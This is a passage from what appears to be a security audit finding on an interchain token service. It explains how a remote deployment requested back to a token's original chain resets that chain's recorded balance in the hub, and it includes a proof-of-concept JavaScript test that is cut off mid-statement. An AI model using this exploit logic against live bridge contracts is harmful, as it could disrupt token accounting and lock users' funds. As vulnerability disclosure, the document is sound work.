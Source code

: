 Now, using the vulnerability, the balance on chain A has been initialized.

- A: 0
- B: 100
- C: 50

Until chain B or C send some tokens to chain A, no more tokens can be go out from chain A. Also, only a maximum of 150 tokens can move between bridges.

This is a PoC. You can run it by adding it to `interchain-token-service/test/InterchainTokenService.js`. It shows that chain A is the original chain, and after remotely deploying a token from A to B, it's possible to request remote deployment from B to A. On chain A, a token with the same `tokenId` is already deployed, so the GMP execution on the chain A will be failed, but the balance of chain A in ITSHub will be initialized to 0.

```
describe('PoC remote deploy to original chain', () => {
    const tokenName = 'Token Name';
    const tokenSymbol = 'TN';
    const tokenDecimals = 13;
    let sourceAddress;

    before(async () => {
        sourceAddress = service.address;
    });

    it('Can request to remote deploy for original chain', async () => {

        const salt = getRandomBytes32();
        const tokenId = await service.interchainTokenId(wallet.address, salt);
        const tokenManagerAddress = await service.tokenManagerAddress(tokenId);
        const minter = '0x';
        const operator = '0x';
        const tokenAddress = await service.interchainTokenAddress(tokenId);
        const params = defaultAbiCoder.encode(['bytes', 'address'], [operator, tokenAddress]);
        let payload = defaultAbiCoder.encode(
            ['uint256', 'bytes32', 'string', 'string', 'uint8', 'bytes', 'bytes'],
            [MESSAGE_TYPE_DEPLOY_INTERCHAIN_TOKEN, tokenId, tokenName, tokenSymbol, tokenDecimals, minter, operator],
        );
        const commandId = await approveContractCall(gateway, sourceChain, sourceAddress, service.address, payload);

        // 1. Receive remote deployment messages and deploy interchain tokens on the destination chain

        await expect(service.execute(commandId, sourceChain, sourceAddress, payload))
            .to.emit(service, 'InterchainTokenDeployed')
            .withArgs(tokenId, tokenAddress, AddressZero, tokenName, tokenSymbol, tokenDecimals)
            .and.to.emit(service, 'TokenManagerDeployed')
            .withArgs(tokenId, tokenManagerAddress, NATIVE_INTERCHAIN_TOKEN, params);
        const tokenManager = await getContractAt('TokenManager', tokenManagerAddress, wallet);
        expect(await tokenManager.tokenAddress()).to.equal(tokenAddress);
        expect(await tokenManager.hasRole(service.address, OPERATOR_ROLE)).to.be.true;

        // 2. Can request a remote deployment to the source(original) chain

        const destChain = sourceChain;

        payload = defaultAbiCoder.encode(
            ['uint256', 'bytes32', 'string', 'string', 'uint8', 'bytes'],
            [MESSAGE_TYPE_DEPLOY_INTERCHAIN_TOKEN, tokenId, tokenName, tokenSymbol, tokenDecimals, minter],
        );

        await expect(
```
